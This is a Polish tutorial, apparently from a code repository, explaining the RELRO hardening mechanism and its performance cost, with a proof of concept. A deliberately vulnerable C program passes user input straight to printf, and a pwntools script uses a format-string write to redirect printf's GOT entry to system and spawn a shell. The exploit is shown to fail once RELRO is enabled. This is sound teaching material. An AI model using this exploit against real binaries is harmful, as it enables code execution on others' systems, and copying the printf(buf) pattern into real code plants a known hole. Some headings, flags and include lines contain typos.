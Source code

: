 # RELRO

### 1. Opis

RELRO to technika polegająca na oznaczaniu sekcji związanych z GOT i PLT jako sekcji tylko do odczytu, co nie pozwala nadpisać tych sekcji.

Tablica GOT jest zapełniana podczas przebiegu programu. Kiedy po raz pierwszy funkcja z biblioteki współdzielonej zostanie wywołana, GOT zawiera pointer powrotny do PLT, gdzie dynamiczny linker zostaje wywołany. Linker po odnalezieniu funkcji zapisuje ją w GOT. To jest `lazy binding` - raz znaleziona funkcja jest trzymana w pamięci w tablicy GOT, co pozwala zaoszczędzić czas.

Istnieją dwa rodzaje RELRO:
* partial RELRO - jedynie sekcja `.got` jest `read only` - co pozwala na nadpisanie adresu w `.got.plt` i wykonanie złośliwego kodu - przykład niżej.
* full RELRO - cały GOT jest `read only`, co uniemożliwia ataki z nadpisaniem adresu w GOT.

W gcc kompiluje się z full RERLO flagą `-z,relro,now`. Tak samo zachowuje się `clang` i `gcc`.


### 3. Wydajność

Partial RELRO jest domyślnym zachowaniem `gcc` i nie wpływa na performance. Full RELRO jest jednak rozwiązaniem dość inwazyjnym. W przypadku ustawienia GOT jako `read only` w tablicy tej muszą już znajdować się wszystkie symbole, które są używane przez program.

Znacząco wpływa to na czas startu aplikacji, bo linker musi na samym jej starcie uzupełnić całą tablicę GOT. Jednak sam `run-time performance` jest taki jak aplikacji bez full GOT, ale z wczytanymi symbolami.

### 2. Proof of Concept - got overwrite with format string


Kompilacja:
- **PIE & ASLR**: wyłączone dla stałości adresów.
- **RERLO**: wyłączone - idea exploitu.

Kod podatnej aplikacji:

```c
// gcc vuln.c -std=c99 -m32-no-pie -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>f 
#include <unistd.h>


int main()
{
    char buf[100];
    printf("Hello \n");
    scanf("%s",buf);
    while(strcmp(buf,"exit")) {
        printf("\n");
        printf(buf);
        scanf("%s",buf);
    }

    return 0;

}
```

Strategią tego ataku jest podmiana adresu funkcji `printf` na adres funkcji `system` w tablicy GOT.

Aby tego dokonać użyję exploitu typu `format string` który korzysta z tagów formatujących funkcji `printf`.
```c
 printf(buf);
```

Ta linijka jest naszym wejściem do programu.

W przypadku podania tagów `%x` pobierana jest wartość ze stosu.

![img.png](img/img.png)

Chcę ustalić, jak daleko na stosie jest `buf`. Metodą prób i błędów znajduję początek bufora. Aby pobrać inny argument, niż najwyższy używam konstrukcji `%3$x`.

![img_1.png](img/img_1.png)

Bufor znajduje się na 7 pozycji.

Teraz potrzeba mi adresu wpisu GOT `printf` oraz adresu `system` w `libc`.

![img_2.png](img/img_2.png)

![img_3.png](img/img_3.png)

Teraz moim zadaniem jest skopiować adres `system` pod adres `0x0804c010`.

Dokonam tego tagiem `%n`. Zapisuje on ilość bajtów wyświetlonych, pod adres wskazany przez pointer.

Zaczynam pisać exploit.

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("Hello")

gdb.attach(p)

#0804c010 -prinft@got

name = '%15$x%16$x'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'

p.sendline(name)

p.interactive()
```

Adres wysyłam na dwa razy - wypisanie adresu jako liczby w postaci spacji nie jest zbyt dobrym pomysłem - liczba jest ogromna.

Używam paddingu, aby pozycje na stosie były niezmienne. Według moich obliczeń adresy wpisane przez mnie znajdują się na 15 i 16 pozycji stosu.

![img_4.png](img/img_4.png)

Jest to prawda.

Pod adres `0x0804c010` chcę zapisać `0f10` czyli `3856` bajty. Osiągam to whitespace'ami generowanymi przez tag x.

Pod adres `0x0804c012` chcę zapisać wyższą część adresu systemu czyli `f7e1` co daje `63457` bajty, ale poprzednie bajty już są na ekranie, więc `63457 - 3856 = 59601` bajtów.

Sklejam gotowy exploit.


```python
name = '%3856p%15$n%59601p%16$n'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'
```

Teraz powinniśmy otrzymać pseudo shella - wynika to z konstrukcji programu, ale po wpisaniu `sh` system spawnuje pełnoprawnego shella.

![img_5.png](img/img_5.png)

Udało się wykonać exploit.

Exploit włączony na kodzie z włączonym relro nie daje żadnego skutku - adres got znajduje się w innym miejscu. W przypadku próby nadpisania tego miejsca następuje `SIGSEGV` - wykonanie chciało nadpisać sekcje read-only. Kod tego exploitu znajduje się w `exploit1.py`.

![img_6.png](img/img_6.png)

### 3. Wnioski

RERLO jest dość prostym mechanizmem obrony przed exploitacją. Chroni przed pewnymi typami ataków i nie jest to opcja, której stosowanie ma sens w przypadku, np. wykonywalnego stosu i wyłączonego ASLR.

Full RERLO jest opcja dość kosztowną i nie powinno się używać jej do aplikacji, które wymagają szybkich czasów startu. Patrial RELRO może i powinno być stosowane defaultowo, bo jest bezproblemowe wydajnościowo, a podnosi bezpieczeństwo.



